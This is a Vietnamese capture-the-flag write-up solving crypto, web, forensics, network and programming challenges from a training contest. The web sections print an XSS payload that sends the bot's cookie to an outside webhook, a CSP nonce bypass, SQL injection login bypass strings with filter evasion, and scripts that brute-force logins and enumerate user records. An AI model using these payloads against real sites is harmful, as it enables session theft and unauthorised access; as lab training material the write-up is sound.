

# Write-up cookie hân hoan

> Some cringy quotes here

## Cryptography

### Xor

> XOR

```tex
# cipher.txt
6c464b4d514b744817491714487449174b57
```

```python
# encrypt.py
flag = ###SECRET###
key = ###SECRET###
assert len(key) == 1

def encrypt(a,b):
    return ''.join([hex(ord(b[i%len(b)]) ^ ord(a[i]))[2:] for i in range(0,len(a))])

with open('cipher.txt', 'w') as f:
        f.write(encrypt(flag, key))
```

Như thường lệ, điều đầu tiên của mình là xor thử với prefix xem đoán được key không

```python
cipher = open('cipher.txt', 'r').read().strip()
cipher = [chr(int(cipher[i:i+2], 16)) for i in range(0, len(cipher), 2)]
msg = 'Flag{'
key = ''
for i in range(len(msg)):
    key += chr(ord(cipher[i]) ^ ord(msg[i]))
   
print(key) 
# '*****'
```

Hmm, nhìn cái phần đầu của key này thì mình mạnh dạn đoán là chỉ cần xor với `ord('*')` là đủ, sửa lại phần code 1 chút thành.

```python
cipher = open('cipher.txt', 'r').read().strip()
cipher = [chr(int(cipher[i:i+2], 16)) for i in range(0, len(cipher), 2)]
msg = ''
for i in range(len(msg)):
    key += chr(ord(cipher[i]) ^ ord('*'))
   
print(msg)
```

Thế là ra flag :D

`Flag{a^b=c=>b^c=a}`

### Morse

> Suỵt! Tập trung và đeo tai nghe lên nào. Gà có nghe thấy nhịp beat không? Họ nói gì từ bên kia chiến tuyến Format: Flag{what_you_find}
>
> [cipher.wav](https://season1.cookiearena.org/files/4e876842996f6153f73c7bb3400ea7cb/cipher.wav)

File audio đính kèm chỉ đơn giản là morse thôi, quăng lên mấy tool online là xong, chẳng hạn như [đây](https://youtu.be/aCgP8BFjrw4) hoặc [đây](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)

`Flag{M.O.R.S.E.C.O.D.E}`

### Jullius Caesar

> Vô tình khi khai quật khảo cổ, Gà tìm được một thông điệp bí ẩn khoảng hơn 100 năm trước công nguyên. Nghe đồn đây là một bí thuật đã bị thay đổi công thức của một vị tướng Julius Caesar, sau này trở thành vị vua đầu tiên của đế chế La Mã hùng mạnh.
>
> Hãy giúp Gà giải mật thư này!

```tex
# cipher.txt
Synt{Ry_Pynfvpb_Pvcure}
```

Ôi dồi, tool chạy phát là xong, lên [đây](https://www.dcode.fr/caesar-cipher) cũng được

`Flag{El_Clasico_Cipher}`

### Sixty Four

> Gà để lại một thông điệp bí mật nhưng nó không làm khó được trí thông minh của Mèo Yang Hồ.

```
cipher.txt
NDY2QzYxNjc3QjVGNUY1RjQyNjE3MzY1MzYzNDc4NDg2NTc4NUY1RjVGN0Q=
```

Rõ ràng là base64 rồi, sau khi decode thì ra được thế này

```
466C61677B5F5F5F426173653634784865785F5F5F7D
```

Ban đầu mình đoán là base32 nhưng decode thử thì bị lỗi, xong sau đó mới thấy chữ cái toàn A-F ( ͡° ͜ʖ ͡°)

Decode hex là xong

`Flag{___Base64xHex___}`

### Bruh AES

> Ôi không, Hazy lỡ xoá đi một mảnh ghép trong quá trình mã hoá AES mất rồi :)

Bài này cho mình 2 file chứa binary của flag sau khi mã hóa và file python để mã hóa

```python
import base64
from Crypto.Cipher import AES

#flag = ###FINDME###
algorithm = AES.MODE_CBC
key = 'supersecretkey!?'
iv_part1 = "0xcafedeadbeef"
iv_part2 = ###FINDME###""
iv = iv_part1 + iv_part2
#assert(len(flag)) == 38

def encrypt(payload, key, iv):
    return AES.new(key, algorithm, iv).encrypt(r_pad(payload))

def r_pad(payload, block_size=16):
    length = block_size - (len(payload) % block_size)
    return payload + chr(length) * length

with open('cipher.txt', 'wb') as f:
    f.write(encrypt(flag, key, iv))
```

Với mã hóa AES thì độ dài key bằng độ dài iv, vậy nên iv_part2 chỉ vỏn vẹn 2 kí tự. Thế thì cứ brute thôi :D

> Và đây là lúc bruh moment bắt đầu

Dựa vào đề bài thì mình thấy chỉ có ràng buộc duy nhất là `(16 - (38 % 16)) = 10` ký tự cuối của cái được decrypt phải có mã ASCII = 10, tức là kí tự xuống dòng. Nhưng đời không như mơ, có rất, rất nhiều flag được decrypt thỏa mãn ràng buộc đó. 

Nhưng nhìn vào cấu trúc của những flag được tạo ra thì đa phần kí tự đang là hex, vậy nên mình thêm ràng buộc đó và số lượng giảm xuống còn 240. Nhưng thế này vẫn bruh quá. Sau đó mình thấy thêm nữa là `iv_part1` chỉ đang là hex, tuy nhiên, chữ cái đầu của `iv_part2` mình brute được chỉ có thể nằm trong `['p', 'q', 'x', 'y', 'z', '(', '*', '+', ',', '-', '/', '{', '|', '}', '~']`. Hmm, nghe vô lý phết.

Trong lúc chán trường muốn bỏ cuộc, mình nghĩ có khi nào `iv_part2` nó là `x0` hay không? Để nó đối xứng với phần đầu `iv_part1`? Tới nước này thì phải mò chứ sao giờ.

> Ai ngờ nó lại đúng :D

```python
import base64
from Crypto.Cipher import AES
import string

#flag = ###FINDME###
algorithm = AES.MODE_CBC
key = 'supersecretkey!?'
iv_part1 = "0xcafedeadbeef"
# iv_part2 = ###FINDME###""
# iv = iv_part1 + iv_part2
#assert(len(flag)) == 38

def decrypt(cipher, key, iv):
    return AES.new(key, algorithm, iv).decrypt(cipher)

cipher = open('cipher.txt', 'rb').read()
print(len(cipher))

def check_msg(msg):
    for i in range(1, 11):
        if msg[-i] != '\n':
            return False
    if msg[:5] != 'Flag{' or msg[37] != '}':
        return False
    for i in range(5, 37):
        if msg[i] not in '0123456789abcdef':
            return False
    return True

cnt = 0
s = string.printable

for i in s:
    for j in s:
        iv = iv_part1 + i + j
        msg = decrypt(cipher, key, iv)
        if check_msg(msg):
            print(i, j, msg.strip())
            cnt += 1

print(cnt)

```

`Flag{f4edced3a1c3e72be1257f232a7a78b6}`

## Web Exploitation

### XSS

> Các cậu còn nhớ sự kiện Livestream lần đầu tiên của Hazy , có một số bạn đã nghịch ngợm làm bay màu cái Chatbox. Đố bạn cho bay màu chal12 này đấy.

Ban đầu khi thấy cái tên bài là mình cũng đã bán tính bán nghi. Vì đa phần trong các bài web của ctf thì người chơi làm riêng lẻ, trong khi XSS chỉ gây hại ở client-side thay vì server-side, thế thì chơi kiểu gì nhỉ?

Mình tin chắc đây là tung hỏa mù thôi, nó phải là SSTI hay gì đó thì mới làm được chứ. 30 phút... 1 tiếng trôi qua... Không 1 manh mối.

Sau đó mình ngồi lại, đọc kĩ lại cái đề và cả những thứ trả về ở trang web xem mình bỏ sót cái gì không? 

> Sót thật

2 từ "receive" và "ticket" lúc mình nhập 1 cái gì đó xong là 1 cái hint to bự ám chỉ rằng có 1 con bot đang chờ mình nhập gì đó để nó sẽ đọc qua :v. Thế mình làm 1 cái payload đơn giản để redirect con bot sang 1 cái webhook mình tạo (Cái này nếu rành thì có thể setup bằng ngrok, heroku hoặc dùng những tool mì ăn liền như [webhook.site](https://webhook.site/) hay [hookbin.com](https://hookbin.com/) đều ok nha).

```html
<script>
	window.location = "<webhook url>?cookie=" + document.cookie;
</script>
```

Khi đó bạn để ý trên log của webhook sẽ có 2 truy vấn, 1 cái là của bạn và 1 cái của con bot (do lúc sau server hơi chậm nên có thể cái thứ 2 sẽ tới hơi lâu), đó sẽ là chỗ bạn lấy được cookie chứa flag :v

`FLAG{10c802c9c6afc26769764b5b986d708a}`

### XSS Filter

> Có vẻ như Chall12 là quá dễ với các bạn, thế còn lọc bớt một số kí tự thì sao :)

Dùng payload cũ để nhập vào thì rõ ràng là chẳng có gì, mình check console thì nó báo lỗi CSP. Content Security Protocol hay CSP là 1 cách để bảo vệ trang web khỏi việc XSS (bạn có thể xem thêm ở [đây](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy)). Hiện tại trong thẻ meta của trang web đang set CSP như sau:

`default-src 'self'; script-src 'nonce-matuhn'...`

Đúng ra với kiểu CSP là nonce thì giá trị phải được tạo random bởi server, vì nếu không nó chẳng khác gì unsafe-inline cả. Nói nôm na là chỉ cần thêm `nonce="matuhn"` là xong =)))

```html
<script nonce="matuhn">
	window.location = "<webhook url>?cookie=" + document.cookie;
</script>
```

`FLAG{5b7eca261028a4042fde4e3f45dec294}`

### Ét Quy Eo

> Đây là một lỗ hổng rất cơ bản nhưng lại dễ dàng bị bỏ qua trong quá trình phát triển ứng dụng.Lỗ hổng này nguy hiểm tới mức cho phép các h@cker lấy quyền quản trị của website, thay đổi nội dung, lợi dụng để ăn cắp các thông tin nhạy cảm, hoặc thậm chí làm bàn đạp tấn công chiếm quyền quản trị toàn hệ thống.
>
> Đây là phương thức tấn công yêu thích của Hacker khi lần đầu tiếp cận với website của bạn

Trang web là 1 form đăng nhập, chỉ cần nhập username và password là xong. Thông thường mình sẽ thử truyền 1 đống SQLi payload vào password nhưng không ăn thua, kể cả payload lỗi syntax. Vậy nên mình tin là server chỉ query bằng username mà thôi. Và đúng thế thật, nhập username là `' or True --`, password thì tùy ý.

`(1, 'lil uzi vert', 'is_admin', 'RmxhZ3tGcjMzX1N0eWwzfQ==')`

Decode base64 sẽ ra được flag

`Flag{Fr33_Styl3}`

### SQL Filter

Thử ngay payload cũ thì rõ ràng là dính blacklist rồi ¯\\_(ツ)_/¯. Sau 1 hồi mò mẫm thì mình thấy là blacklist gồm có dấu cách (có thể thay thế bằng `/**/` hoặc `%09`), `or` (nhưng `oR` thì không). Tới đây thì mình sẽ có username là `'/**/oR/**/true/**/--`.

Again, decode base64 sẽ ra được flag

`Flag{Gr33t1nG}`

### Gatling gun

> Với chiếc Gatling gun mạnh mẽ trong tay, Mèo Yang Hồ có thể vượt qua bất kì cánh cửa bảo mật nào. Nhưng thật buồn cười là trong tay hắn lại không có một viên đạn nào.Nếu bạn muốn nghịch súng với Mèo thì hãy đi nhặt đạn ở trong Github của Cookie Hân Hoan nhé.

Bài này cũng chứa 1 login form khác nhưng nó yêu cầu 3 trường là username, password và ip. Inspect document cũng không có script để xử lý nên có vẻ nó không phải liên quan tới JS rồi.

Nhưng sau đó thì mình nhớ ra trong repo của bài **Github** có chứa "đạn" thật :v Có 3 file `ip.txt`, `pa$$w0rd.txt`, `userLame.txt` và giờ mình chỉ cần thử từng tổ hợp của 3 trường này để tìm flag thôi :v

*Tip là với những bài phải request để thử nhiều thì bạn có thể dùng google colab.*

```python
import requests

user = open('userLame.txt', 'r').read().strip().split('\n')
password = open('pa$$w0rd.txt', 'r').read().strip().split('\n')
ip = open('ip.txt', 'r').read().strip().split('\n')

for u in user:
  for p in password:
    for i in ip:
      data = {"username": u, "password": p, "ip": i}
      r = requests.post('http://chal9.web.letspentest.org/login', data=data)
      print(u, p, i, r.text)
```


`FLAG{e6c068faf9241fe9d1f2000516718377} `

### The maze runner

> Lạc vào một mê cung với vô vàn những chuỗi kí tự bí ẩn. Vừa chạy vừa phải nghĩ đâu mới manh mối giúp Gà thoát ra.Hãy giúp Gà một tay nhé?

Trang cho mình giao diện giống cây folder để mò vào từng folder tìm flag, khá giống giải mê cung rồi =))) nên lần này cứ viết thêm 1 cái script để tìm cũng được hoặc bạn có thể tìm tay :v

```python
import requests
import re
import base64

base = 'http://chal10.web.letspentest.org/'

def get_routes(path):
    r = requests.get(path)
    arr = [p.split('">')[1].split('</')[0] for p in re.findall('<a.*<\/a>', r.text)]
    return arr

def check(path):
    r = requests.get(path)
    if ('flag' in r.text.lower()) and ('fake' not in r.text.lower()):
        print(r.text)
        return True

def get_content(path):
    r = requests.get(path)
    return r.text

def run(cur, f):
    print(cur)
    f.write('=====\n' + cur + '\n')
    f.write(get_content(base + cur))
    routes = get_routes(base + cur)
    if check(base + cur):
        print(base + cur)
        return True

    for r in routes:
        if r == '../':
            continue
        if run(cur + r, f):
            return True

with open('log', 'w') as f:
    run('', f)
```

`FLAG{6059e2117ea3eeecdad7faf1e15d16a2}`

### ID'OR1=1

> Một lỗ hổng rất cơ bản! Nhưng nếu nó xảy ra thì hậu quả rất khủng khiếp...

Nhìn cái tên thì nghe có vẻ giống như một bài SQLi khác, mình sẽ nhập 1 cái id và trang sẽ trả về json data về thông tin cá nhân của người đó. Ban đầu mình thử 1 số trò SQLi cơ bản nhưng không được thì mình tính tới chuyện crawl hết đống data về xem chứa flag trong đó không. Kết quả: 200 id nhưng chẳng có gì.

Nản quá nên mình lui ra kiếm bài khác làm, sau đó thì có cái hint của BTC là "Cuộc dạo chơi của những con số". Hmm, sao nghe giống BTC đang bảo mình brute thêm 1 lần nữa thế :D

Thôi đã tới thì tới luôn vậy.

```python
import requests

with open('log', 'w') as f:
  for i in range(2000):
    print(i)
    r = requests.get('http://chal11.web.letspentest.org/user?id=' + str(i))
    if 'invalid' not in r.text:
      f.write('====\n' + str(i) + '\n' + r.text)
      if i > 200:
        print('Found one!')
```

Flag nằm ở id 1337, *nice*

`Flag{61cb4a784e83b6109999af6f036b88bf}`

## Forensic

### AudiCaty

> Hazy gửi cho Gà một thông điệp bí mật, kèm một lời nhắn "Đừng vội vàng kết luận môt vấn đề, luôn phải để mắt thấy tai nghe"

Phản xạ thấy file audio là bật tool lên coi spectrogram rồi.


Tiếc là tiếng nói che mất 1 phần flag, nên mình dùng noise reduction trong Audition, vòila


`Flag{No_Bullets_for_Player_001}`

### Basic Image

> Đố bạn biết bức ảnh này được nhắc tới bài viết nào trên Fanpage của Cookie Hân Hoan ấy. Hehe!

> \> file KB.jpg
>
> KB.jpg: JPEG image data, JFIF standard 1.02, resolution (DPI), density 96x96, segment length 16, Exif Standard: [TIFF image data, big-endian, direntries=5, manufacturer=Flag{metadataratatatataaaaaa}], progressive, precision 8, 2048x2048, components 3

### ExSeller

> Để không bị Mèo nhòm ngó tệp tài liệu quan trọng. Gà nhanh tay đặt mật khẩu, nhưng lại vô tình quên mất. Làm thế nào bây giờ T_T

Linh tính mách bảo là unzip nó ra đi, và đúng là có flag thật :D

> \> unzip bruteme.xlsx
>
> \> cat sharedStrings.xml
>
> <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
> <sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="2" uniqueCount="2">
>   <si>
>     <t>check</t>
>   </si>
>   <si>
>     <t>Flag{Micro$oft_Heck3r_Man}</t>
>   </si>
> </sst>

### Streamer

> Anh nghệ sĩ nhiều đam mê đang vớt rác bên tàu. Ta lang thang với bản vẽ đời ta tự tô màu.Ô! Vớt được cái gì thú zị này!

Dùng wireshark này thì thấy có 1 file .zip được upload, lấy về rồi mở ra xem có gì nào. (Cách làm của mình là copy hex stream xong lưu lại, sau đó dùng python, **không phải python 3.8 trở đi nha**, để lưu binary).


Giải nén sẽ có file `flag.txt`. Done!

`Flag{TCP_streamin_go_skrrrrrrrt}`

### Interceptor

> Rối loạn tiền đình là bệnh lý gây ra trạng thái mất cân bằng về tư thế, khiến người bệnh thường xuyên bị chóng mặt, hoa mắt, ù tai, đi đứng lảo đảo.Nhưng sự thật não bạn đang muốn nhảy như điệu tanggo Khoan, dừng khoảng chừng là 2 giây!

Dùng bất kì tool nào để đọc được từng ảnh của file gif, 9 ảnh đầu sẽ có chứa 1 mảnh của mã QR, tách ra xong ghép lại là xong


`Flag{1s_th1s_m1sc3llan30us?}`

### Volatility

> *The true forenSeek*
>
> Giữ nguyên hiện trường là việc cần thiết trong quá trình điều tra số. Một trong những file lưu trữ hình ảnh của RAM trong quá trình làm đề thi được leak ra cho các chiến binh. Cho mình thấy các cậu tìm được gì nào :)

Dùng volatility để liệt kê các tiến trình thì thấy file `DumpIt.exe`, ngại gì không dump memory ra

>\> volatility imageinfo -v -f DESKTOP-K5GNI06-20211028-104628.raw
>
>\> volatility pslist -f DESKTOP-K5GNI06-20211028-104628.raw --profile=Win10x64_19041
>
>\> volatility memdump --dump-dir=./ -p 5932 -f DESKTOP-K5GNI06-20211028-104628.raw --profile=Win10x64_19041
>
>(5932 là pid của DumpIt.exe)

Sau đó mình dùng `strings` kiểm tra thử xem flag có đọc được liền không, hên là có =)))

`Flag{7ef31e58bd4086e294b4d700c721f35f}`

### Github

> Được biết tới như một kho lưu trữ mã nguồn khổng lồ của thế giới, và những thay đổi trong quá khứ đều được lưu lại và khôi phục. Hãy kiếm tìm những bí mật mà Gà con lon ton vô tình để lại.
>
> [https://github.com...](https://github.com/)

Sau 1 hồi tìm "Gà con lon ton" trên github không khả quan, mình thử tìm "Cookie hân hoan" thì thấy ngay cái cần tìm :D

Phiên bản mới nhất của main thì không có gì nổi bật, nhưng history thì lại xóa kha khá thứ, mò thì sẽ thấy flag thôi.

⢀⣠⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠀⠀⠀⠀⣠⣤⣶⣶⣿⣿⣿⣿⣿⣿⣿⣿⣿

⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠀⠀⠀⢰⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿

⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣧⣀⣀⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿

⣿⣿⣿⣿⣿⡏⠉⠛⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿

⣿⣿⣿⣿⣿⣿⠀⠀⠀⠈⠛⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠿⠛⠉⠁⠀⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿

⣿⣿⣿⣿⣿⣿⣧⡀⠀⠀⠀⠀⠙⠿⠿⠿⠻⠿⠿⠟⠿⠛⠉⠀⠀⠀⠀⠀⣸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿

⣿⣿⣿⣿⣿⣿⣿⣷⣄⠀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿

⣿⣿⣿⣿⣿⣿⣿⣿⣿⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠠⣴⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿

⣿⣿⣿⣿⣿⣿⣿⣿⡟⠀⠀⢰⣹⡆⠀⠀⠀⠀⠀⠀⣭⣷⠀⠀⠀⠸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿

⣿⣿⣿⣿⣿⣿⣿⣿⠃⠀⠀⠈⠉⠀⠀⠤⠄⠀⠀⠀⠉⠁⠀⠀⠀⠀⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿

⣿⣿⣿⣿⣿⣿⣿⣿⢾⣿⣷⠀⠀⠀⠀⡠⠤⢄⠀⠀⠀⠠⣿⣿⣷⠀⢸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿

⣿⣿⣿⣿⣿⣿⣿⣿⡀⠉⠀⠀⠀⠀⠀⢄⠀⢀⠀⠀⠀⠀⠉⠉⠁⠀⠀⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿

⣿⣿⣿⣿⣿⣿⣿⣿⣧⠀⠀⠀⠀⠀⠀⠀⠈⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿

⣿⣿⣿⣿⣿⣿⣿⣿⣿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿

⣿⣿⣿Flag{no_where_to_hide_gitleaks}⣿⣿⣿⣿⣿⣿

⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿


## Network

### Post Office Man

> Anh bưu tá này là một người mà Gà rất tin tưởng. Gà ủy quyền cho anh ấy lên bưu điện, nói chuyện với anh kiểm thư để lấy thư về.
>
> Nếu giấy ủy quyền hợp lệ, anh kiểm thư sẽ giữ lại bản gốc rồi photocopy ra một bản khác để anh bưu tá đem về cho Gà. Để nhỡ trong trường hợp Gà có tức quá xé thư đi thì vẫn có thể lên đây lấy lại.
>
> Đố bạn anh bưu tá sử dụng giao thức email nào để nói chuyện với anh kiểm thư?
>
> `network.letspentest.org 9002`

Khi netcat lần đầu nó hiện thế này

>+OK popper file-based pop3 server ready
>
>Please using USER to login first
>Các Bạn hãy sử dụng câu lênh USER để login vào hệ thống
>(Cứ nhập linh tinh zô 乁| ･ 〰 ･ |ㄏ)

Chả hiểu gì, nên mình đi google 1 tí dựa trên cái phần mô tả kia và cái `pop3` trông đáng nghi thật sự

Sau đó thì mới biết cái giao thức đang nói tới là [POP](https://en.wikipedia.org/wiki/Post_Office_Protocol) (Post office protocol)

Sau đó mình cứ xài thử mấy lệnh có trong code mẫu, `LIST` là để liệt kê mail, còn `RETR <id>` là đọc nội dung của mail `<id>`, flag nằm ở mail 8

`Flag{1-Ha\/3-1o0o-UnS33n-3Ma1L}`

### Very Good Shipper

> Hãy tham gia đấu trường Cookie phiên bản nhanh như chớp. Gà phải chọn ra đáp án đúng trong thời gian nhanh nhất.
>
> Giao thức TCP sẽ giúp các câu trả lời của Gà luôn được đảm bảo gửi đến máy chủ của Cookie Arena mà không bị rơi rớt một từ nào.
>
> Tuy nhiên, Gà đã quên cổng kết nối vào máy chủ. Chỉ nhớ mang máng là nó giống với thử thách "Scan me if you can"
>
> `network.letspentest.org`

Lúc làm bài này thì mình chưa làm scan me if you can, nhưng cái từ "scan" lộ quá rồi còn gì

>\> nmap network.letspentest.org
>
>Host is up (0.051s latency).
>rDNS record for 18.139.222.220: ec2-18-139-222-220.ap-southeast-1.compute.amazonaws.com
>Not shown: 996 closed ports
>PORT     STATE SERVICE
>
>80/tcp   open  http
>
>7000/tcp open  afs3-fileserver
>
>9002/tcp open  dynamid
>
>9003/tcp open  unknown

Vì port 9002 làm bài Post office man rồi nên thử 9003. Hóa ra nó là giải đố vui vẻ thôi, trả lời đúng 6 câu trong kịp thời gian sẽ có flag

`Flag{t00-ez-4-y0u}`

### Where is my house?

> DNS CHÍNH LÀ XƯƠNG SỐNG CỦA INTERNET.
>
> Tên miền hay Domain chính là địa chỉ trang web, thứ mà các bạn vẫn hay gõ vào trên thanh địa chỉ trên trình duyệt để đọc báo hay lướt web, xem phim.
>
> Trên Internet mọi máy tính, máy chủ, các thiết bị mạng được kết nối và giao tiếp với nhau thông qua hệ thống cáp mạng chằng chịt và khổng lồ. Các máy tính sẽ được gán cho nhau những dãy số để định danh với nhau gọi là địa chỉ IP. Nói một cách dễ hiểu thì một ai đó muốn ghé thăm nhà bạn thì họ cần phải có địa chỉ nhà. Những dãy số địa chỉ này có độ dài có thể lên đến 12 hoặc 45 kí tự.
>
> Đến mật khẩu 6 kí tự bạn còn không nhớ nổi, vì thế năm 1984 DNS (Domain Name System) được phát minh để giúp bạn kết nối với nhau bằng tên gọi.
>
> Bạn chỉ cần nhớ letspentest.org thay vì những dãy số khô khan và kì quặc. Khi vừa Enter, hệ thống DNS bắt đầu hoạt động, nó như tấm bản đồ để chỉ cho bạn biết "Hey, cái tên miền của Cookie có địa chỉ IP là X.X.X.X, hãy tới đó mà lấy thông tin đê". DNS cũng trả lời cho bạn biết "X.X.X.X có phải địa chỉ nhà Cookie Hân Hoan hay không"
>
> DNS cũng chứa các thông tin khác, nó gọi là các bản ghi (Record). Bạn thử tìm xem domain này còn có những bản ghi nào chứa những điều kì quặc không?
>
> `letspentest.org`

Có vẻ đề cũng đã rõ, tìm các record của dns này, có nhiều tool làm được trò đó như [đây](https://dnsdumpster.com/) hoặc [đây](https://www.youtube.com/watch?v=aW0DRWhdZyY)

Flag nằm trong txt record

`Flag{DNS_A_AAAA_TXT_CNAME}`

### Scan me if you can

> Nếu coi mỗi máy chủ là một ngôi nhà, trước khi xâm nhập vào bên trong, các Hacker phải thực hiện việc thăm dò. Họ xem xét đâu là điểm yếu nhất của ngôi nhà, chỗ nào là điểm mù camera? Chủ nhà hoặc bảo vệ sẽ phản ứng thế nào khi có xuất hiện các dấu hiệu bất thường?
>
> Trong quá trình tìm kiếm lỗ hổng, Hazy thường xem xét ngôi nhà này có bao nhiêu cánh cửa đang mở (Port). Hãy sử dụng công cụ thân quen để "ném đá" vào tất cả các cánh cửa của ngôi nhà.
>
> Biết rằng, cửa sổ được đánh số từ 8100 tới 9100
>
> Dựa vào sự phản hồi bạn sẽ biết được những điều thú vị!
>
> `network-insecure.letspentest.org`

Rephrase lại đề: check xem ở domain này có cổng nào thú vị từ 8100 tới 9100

> \> nmap -p 8100-9100 network-insecure.letspentest.org
>
> Host is up (0.039s latency).
> rDNS record for 18.140.65.99: ec2-18-140-65-99.ap-southeast-1.compute.amazonaws.com
> Not shown: 999 closed ports
> PORT     STATE  SERVICE
>
> 9003/tcp open   unknown
>
> 9004/tcp open   unknown

Hmm, netcat cả 2 không được nên curl thử

> \> curl -v 18.140.65.99:9004
>
> \* Trying 18.140.65.99:9004...
>
> \* TCP_NODELAY set
>
> \* Connected to 18.140.65.99 (18.140.65.99) port 9004 (#0)
>
> \> GET / HTTP/1.1
> \> Host: 18.140.65.99:9004
> \> User-Agent: curl/7.68.0
> \> Accept: */*
>
> \* Mark bundle as not supporting multiuse
> < HTTP/1.1 400 Bad Request
> < Server: Flag{Every-Header-Have-It-Own-Meaning}Date: Wed, 03 Nov 2021 16:03:39 GMT
> < Content-Type: text/html
> < Content-Length: 255
> < Connection: close
> <
>
> <html>
>
> <head><title>400 The plain HTTP request was sent to HTTPS port</title></head>
>
> <body>
>
> <center><h1>400 Bad Request</h1></center>
> <center>The plain HTTP request was sent to HTTPS port</center>
> <hr><center>nginx/1.20.0</center>
> </body>
> </html>

Yay flag trong header rồi

### Secure HTTP

> HTTP và HTTPS đều là hai giao thức giúp trình duyệt của bạn truy cập, tương tác với các trang Web. Tuy nhiên khi sử dụng giao thức HTTP để truy cập Web ở một quán cà phê hay trong cùng một khu trọ thì tất cả các nội dung trao đổi nhạy cảm, cũng như mật khẩu của bạn trên Web đều có thể nghe lén.
>
> Còn HTTPS (chữ S có nghĩa là Secure - Bảo mật) sinh ra để mã hóa dữ liệu trong quá trình trao đổi giữa trình duyệt và máy chủ bằng một chiếc Chứng chỉ (Certificate)
>
> `network-insecure.letspentest.org 9004`

Do nãy giờ nmap nên cũng biết ip của domain này là `18.140.65.99`, nên curl thử

>\> curl -v https://18.140.65.99:9004
>
>...
>
>curl failed to verify the legitimacy of the server and therefore could not
>establish a secure connection to it

Có vẻ trang cấp 1 cái certificate hơi chuối nên curl không cho qua, đọc hướng dẫn sử dụng thì có thể thêm `--insecure` để "kệ" cái lỗi đó

> \> curl --insecure -v https://18.140.65.99:9004
>
> ...
>
> \* Server certificate:
>
> \* subject: C=VN; ST=Chicken-Little; L=Pussy-Cat; O=Flag{This-Is-A-Trusted-One}; OU=https://fb.com/cookie.han.hoan; CN=https://discord.gg/cookiehanhoan; emailAddress=Cookiehanhoan@gmail.com

Hehe, ezpz

## Programming

### SUM()

> Bỏ qua tất cả các tích phân, đạo hàm, ma trận, sác xuất. Gà hãy kết nối tới máy chủ của Cookie Arena và thực hiện tính tổng của dãy số đã cho một cách nhanh nhất.
>
> Hãy học cách sử dụng Python và player.py để giải toán nha
>
> `programming.letspentest.org 8111`

Cơ bản là bài này chỉ cần tính tổng các số được in ra.

`Flag{1plust1_1s_2_qu1ck_mafth}`

### Pro102

> Rồi một ngày kia mắt anh tròn xoe như đường tròn lượng giác Khi bất ngờ một bài toán bậc 2 Cứ lầm tưởng rằng nghiệm duy nhất với ai Thật kinh hoàng phương trình vô nghiệm
>
> (st)
>
> `programming.letspentest.org 8222`

Bài này thì tính nghiệm phương trình bậc 2, và đảm bảo là nghiệm nguyên.

`Flag{2fast2fur10us}`

### Roberval

> Hazy ngồi cân những viên bi mình đang có, loay hoay vẫn không biết phải cân bao nhiêu lần để tìm được viên bi nhẹ nhất.
>
> Bạn giúp Hazy một tay với nhé.
>
> `programming.letspentest.org 8333`

Google công thức thì nó là 

`Flag{n0_pr0b_w1th_cub3_r00t_RIGHT?}`

## Web Basic

### Hân Hoan

> Thấy hộp bánh quy của chú Hazy để hớ hênh trên bàn. Với bản tính nghịch ngợm, Mèo Yang Hồ nhanh tay thêm chút gia vị để biến cuộc đời trở nên hài hước và hân hoan hơn.

Trang đăng nhập là 1 login form vui vẻ, inspect thấy cũng không có gì bất thường

```html
<form action="/check.php" id="login" method="POST">
    <p> Username:
        <input type="text" name="username" /><br>
    <p> Password:
        <input type="password" name="password" /><br>
        <input class="button" type="submit" value="Submit">
</form>
```

Nhập thử `admin|admin` xem sao


Hmmp, sau đó thì cũng từ gợi ý đề bài mà mình bật lên coi thử có cookie gì lạ không



( ͡° ͜ʖ ͡°) Thay thử value thành `CookieHanHoan` và cái kết

`Flag{Cookies_Yummy_Cookies_Yammy!}`

### Header 401

